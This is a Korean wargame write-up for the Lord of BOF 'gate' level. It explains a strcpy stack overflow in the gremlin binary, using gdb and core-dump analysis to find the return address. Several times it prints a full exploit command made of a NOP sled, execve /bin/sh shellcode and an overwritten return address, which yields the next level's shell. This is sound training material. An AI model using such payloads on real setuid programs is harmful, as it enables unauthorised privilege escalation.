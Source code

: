 # LOB - Gate

## 주어진 파일

![1567941739468](https://user-images.githubusercontent.com/52530785/64917066-bd3e8b80-d7c6-11e9-9d72-9cb26dfdacf1.png)


ID : gate

PW : gate로 접속한다.



![1567941702228](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941702228.png)

```c
vi gremlin.c
```

![1567930461328](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567930461328.png)



위의 프로그램은 ./실행파일, 인자

를 넣어서 실행하는 파일로, 인자를 넣지 않는다면 error

인자를 넣는다면 인자를 그대로 출력해 주는 프로그램이다.

하지만, strcpy를 통해 buffer의 크기인 256을 넘어가면 문제가 생기게 된다.



## GDB

처음 gdb로 확인하려면 자신의 권한으로 까야하기 때문에 main 페이지에 있던 gremlin 파일을 디렉터리를 새로 만들어서 복사한다.

```mkdir
mkdir tmp
cp gremlin tmp/
```

![1567941473987](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941473987.png)



복사를 하고 나면 소유자와 그룹이 gremlin 이었던 파일이 자신의 이름인 gate와 gate로 바뀐 것을 볼 수 있다.

이제 gdb를 실행할 수 있다.



```c
gdb gremlin
```

![1567931017425](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567931017425.png)



gdb로 main문을 보면 sub 0x100으로 버퍼 크기인 256 바이트가 보인다.



![1567930817522](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567930817522.png)

위의 프로그램은 버퍼에 256 byte, SFP에 4 byte, RET에 4 byte 가 들어가서 



SFP :   Saved Frame Pointer로 프레임 포인터 값을 가지는 공간으로서 만약 main에서 다른 함수를 호출했을때, 돌아올 주소를 저장하는 공간이다.

-> EBP



RET은 Retrun Address 로써 프로그램이 마치면 돌아갈 주소를 저장하는 공간으로 bof의 궁극적 목적 공간이다.

이 ret을 조작하여 다른 곳으로 돌아가게 할 수 있으며, SetUID가 걸렸을 경우 쉘로 조작하여 상위 권한의 수을 얻을 수 있다.



RET은 우리가 실행해야할 주소가 들어가야하므로

Buffer 부분에 쉘코드를 집어 넣은 후 SFP까지 0x90으로 Nop 값을 채워주면 된다.

Buffer 는 256 byte

SFP 는 4 byte 이므로 260 byte를 채우고,

RET 에 내가 점프하고 싶은 부분의 주소를 넣으면 된다.



```c
buffer의 크기는 256 byte
SFP의 크기는 4 byte 
이므로 둘을 더한 260 byte (= 0x104)
    
./gremlin `python -c 'print "a"*0x104'`
를 실행하면 segmentation fault 가 뜬다.
```





## 쉘코드

- https://security-nanglam.tistory.com/117 에서 쉘코드 가져옴

![1567941320888](C:\Users\Jaewan.DESKTOP-TRD27GL\AppData\Roaming\Typora\typora-user-images\1567941320888.png)

```c
\x90으로 215 바이트
쉘코드 25 바이트
\x90 20바이트	를 채워서 Buffer + SFP 의 크기인 260 바이트를 채워주고
마지막에 RET 값을 넣는다.

./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"내가 점프하고 싶은 부분의 주소"'`
```

- 첫 부분에 쉘코드를 넣으면 정확한 주소 값을 알고 난 후 공격해야하므로 
- Nop으로 앞부분을 채워준 후 쉘코드 + Nop + RET 값을 넣는다.
- 하지만 쉘코드와 RET 주소 값을 가장 뒤에 같이 두면 쉘코드 뒤에 따라 나오는 값이 있을 수 있으므로

- 쉘코드 뒤에 어느 정도 Nop을 넣어준 후 마지막에 점프하고 싶은 부분의 주소(RET)를 넣어줘야한다.





일단 RET 부분에 aaaa를 넣고 aaaa가 어디에 들어가는지 보았다.

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\x61\x61\x61\x61"'`
```



```c
gdb gremlin 명령어를 통해 gdb를 열고 위의 POC를 적는다.
```

![1567939292222](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939292222.png)



0x61616161 주소가 뭐냐고 묻는다.



- RET에 0x61616161이 들어갔으므로 eip에 들어간다.

![1567939240330](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939240330.png)



```c
x/100wx $esp+300 명령어로 어떻게 값이 들어갔는지 보면
```

![1567939933686](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567939933686.png)

위와 같이 Nop으로 값이 채워지고, 중간에 쉘코드, Nop, RET 값이 들어가는 것을 볼 수 있다.

이제 맨 마지막 0x61616161 자리에 Nop이 있는 주소 중 아무거나 넣어주면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567942068037.png)

```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xdc\xfb\xff\xbf"'`
```





### 위의 명령어로 되지 않을때

하지만 gdb를 실행할때마다 주소값이 차이가 조금씩 나기 때문에,

위의 명령어로 되지 않을 수도 있다.

그래서 core 파일을 확인해본다.



- segmentation fault 날 때 core dumped 를 통해 나오는 core 파일을 확인한다.

![1567940758653](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567940758653.png)

위와 같이 core dumped가 나오면



다음과 같이 core 파일이 생긴다.

![1567941218417](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941218417.png)



```c
gdb -c core 명령어를 통해 들어간 후
```

![1567940878365](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567940878365.png)



```c
x/100wx $esp+300 값을 통해 값이 어디에 들어갔는지 확인해본다.
```

![1567941114068](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941114068.png)



이 중 Nop 값 중 하나를 선택해서 RET에 넣으면 된다.

하지만 tmp 디렉터리 내에서 실행하면 gremlin 파일이 gate 권한을 가지고 있으므로, main으로 돌아가서 실행한다.

![1567942068037](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567942068037-1568525258114.png)



```c
./gremlin `python -c 'print "\x90"*215+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*20+"\xcc\xfb\xff\xbf"'`
```

![1567941814846](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941814846.png)

쉘이 뜬다.



![1567941853794](C:%5CUsers%5CJaewan.DESKTOP-TRD27GL%5CDesktop%5CLOB%5CLOB%5CLOB%20-%20Gate.assets%5C1567941853794.png)

ID를 보면 gremlin이 있다.

my-pass 를 보면 gremlin의 password가 나온다.
